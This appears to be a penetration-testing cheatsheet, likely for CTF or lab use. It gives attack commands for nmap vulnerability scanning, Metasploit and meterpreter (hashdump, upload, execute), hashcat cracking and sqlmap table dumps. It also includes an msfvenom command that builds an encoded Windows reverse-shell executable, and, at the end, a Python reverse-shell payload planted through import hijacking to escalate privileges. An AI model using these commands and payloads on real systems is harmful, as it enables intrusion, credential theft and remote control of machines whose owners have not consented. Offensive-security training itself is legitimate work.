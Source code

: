 
# Cheatsheet

---

- [Cheatsheet](#cheatsheet)
  - [Nmap](#nmap)
    - [Check for vulns with scan](#check-for-vulns-with-scan)
    - [Enumerate SMB shares](#enumerate-smb-shares)
    - [List mounts available on a NFS](#list-mounts-available-on-a-nfs)
  - [Metasploit](#metasploit)
    - [Start Metasploit](#start-metasploit)
    - [List sessions](#list-sessions)
    - [Search for and use module from nmap vuln scan](#search-for-and-use-module-from-nmap-vuln-scan)
    - [Change reverse shell to metapreter shell](#change-reverse-shell-to-metapreter-shell)
      - [Useful metapreter commands](#useful-metapreter-commands)
    - [Generate reverse shell as windows executable](#generate-reverse-shell-as-windows-executable)
  - [Hashcat](#hashcat)
    - [Identify Hash](#identify-hash)
    - [Common hash types](#common-hash-types)
    - [Crack MD5 hash with rockyou](#crack-md5-hash-with-rockyou)
  - [Gobuster](#gobuster)
    - [List directories and files](#list-directories-and-files)
  - [SQLMap](#sqlmap)
    - [Discover database names](#discover-database-names)
    - [Show tables in database](#show-tables-in-database)
    - [Enum table in database](#enum-table-in-database)
  - [Windows](#windows)
    - [Stop a service](#stop-a-service)
    - [Start a service](#start-a-service)

---

## General Linux stuff

### SUDO

#### Check what commands can be run as sudo

`sudo -l`

#### Running commands as other users with sudo

`sudo -u <user> <command>`

## Nmap

### Check for vulns with scan

```nmap -sV -vv --script="vuln" <ip>```

### Enumerate SMB shares

```nmap -p <port> --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```

### List mounts available on a NFS

```nmap -p <port> --script=nfs-ls,nfs-statfs,nfs-showmount <ip>```


## Metasploit

### Start Metasploit

```msfconsole -q```

### List sessions

```sessions```

### Search for and use module from nmap vuln scan

```search <vuln>```

```use <index>```

### Change reverse shell to metapreter shell

```use post/multi/manage/shell_to_metapreter```

```set session <session id of shell>```

Change to metapreter session:

```sessions -i <session id>```

#### Useful metapreter commands

```shell``` - Gain interactive shell on target box

```hashdump``` - Dump password hashes of users

```upload <src file> <dst file>``` - Upload file to target

```download <src file> <dst file>``` - Download file from target

```sysinfo``` - Get info on target box

```execute -f <file>``` - Execute file on target box

### Generate reverse shell as windows executable

```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o <.exe>```

## Hashcat

### Identify Hash

```hash-identifier <hash>```

### Common hash types

```text
900   | MD4                                              | Raw Hash
0     | MD5                                              | Raw Hash
100   | SHA1                                             | Raw Hash
1300  | SHA2-224                                         | Raw Hash
1400  | SHA2-256                                         | Raw Hash
10800 | SHA2-384                                         | Raw Hash
1700  | SHA2-512                                         | Raw Hash
17300 | SHA3-224                                         | Raw Hash
17400 | SHA3-256                                         | Raw Hash
17500 | SHA3-384                                         | Raw Hash
17600 | SHA3-512                                         | Raw Hash
6000  | RIPEMD-160                                       | Raw Hash
600   | BLAKE2b-512                                      | Raw Hash
11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian | Raw Hash
11800 | GOST R 34.11-2012 (Streebog) 512-bit, big-endian | Raw Hash
6900  | GOST R 34.11-94                                  | Raw Hash
5100  | Half MD5                                         | Raw Hash
18700 | Java Object hashCode()                           | Raw Hash
17700 | Keccak-224                                       | Raw Hash
17800 | Keccak-256                                       | Raw Hash
17900 | Keccak-384                                       | Raw Hash
18000 | Keccak-512                                       | Raw Hash
21400 | sha256(sha256_bin($pass))                        | Raw Hash
6100  | Whirlpool                                        | Raw Hash
10100 | SipHash                                          | Raw Hash
21000 | BitShares v0.x - sha512(sha512_bin(pass))        | Raw Hash
```

### Crack MD5 hash with rockyou

```hashcat -a 0 -m 0 <hash/hashfile> /usr/share/wordlists/rockyou.txt --show```

## Gobuster

### List directories and files

```gobuster dir -u http://<ip>:<port> -w <wordlist> -x <file types>```

## SQLMap

### Discover database names

```sqlmap -r <request file> --dbs```

### Show tables in database

```sqlmap -r <request file> -D <database name> --tables```

### Enum table in database

```sqlmap -r <request file> -D <database name> -T <table name> --dump```

## Windows

### Stop a service

```sc stop <service name>```

### Start a service

```sc start <service name>```

## Useful python stuff

### Hijacking imports

If a target has a python file with elevated privs that imports files, we can create a new file (contents below) with the name of the imported file to get a shell as whoever has the privs for the file.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```